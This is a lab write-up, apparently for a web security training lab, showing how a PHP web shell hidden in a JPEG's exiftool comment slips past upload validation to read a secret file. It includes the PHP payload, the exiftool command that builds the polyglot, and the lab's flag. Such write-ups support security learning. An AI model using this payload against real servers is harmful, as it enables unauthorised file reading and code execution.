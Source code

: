 
### Remote code execution via polyglot web shell upload : PRACTITIONER

---


> We need to read contents of the `/home/carlos/secret` file. Given login credentials `wiener:peter`.

Logging in as wiener.

![](./screenshots/lab1-login.png)

We see this my-account page.

![](./screenshots/lab1-account.png)


Trying to upload a PHP shell to obtain the secret file, while having BURPSUITE PROXY HTTP history open
```PHP
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
- Called `shell.php`.

We get this response.

![](./screenshots/lab6-err.png)

> We need the file we upload to have its actual content validated to be an image, but we can play with the metadata to put our PHP script there.

We can do that using the `exiftool` in the command line, by adding a comment to the metadata of the picture we have.
``` Bash
exiftool -comment="mins" raven.jpg
```

If we now run `exiftool raven.jpg` to see the metadata of the file.

![](./screenshots/lab6-pic.png)

> If we can change this comment to something more malicious, and then save the `.jpg` file into a `.php` file extension, we will have a file with the metadata of an image but an extension of an executable. This might bypass the filters on the webserver.

```bash
exiftool -comment="<?php echo 'HERE ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" -o attack1.php
```
- Added the `HERE ` and ` END` with string concatenation to be able to quickly find the output of the command between them.
- Added the `-o` flag to indicate the new output file we saved into.

Now, if we upload this file and monitor the response.

![](./screenshots/lab6-upload.png)

> Going back to my-account and viewing the image slot in a new tab. We can look for the command output by looking for the HERE and END.

![](./screenshots/lab6-res.png)

> We see the secret printed out between them. Copying it and submitting it to solve the lab.
```
GTgQ0awCkMIU8w2JUOVf1FjKjzGQ5tIw
```

---
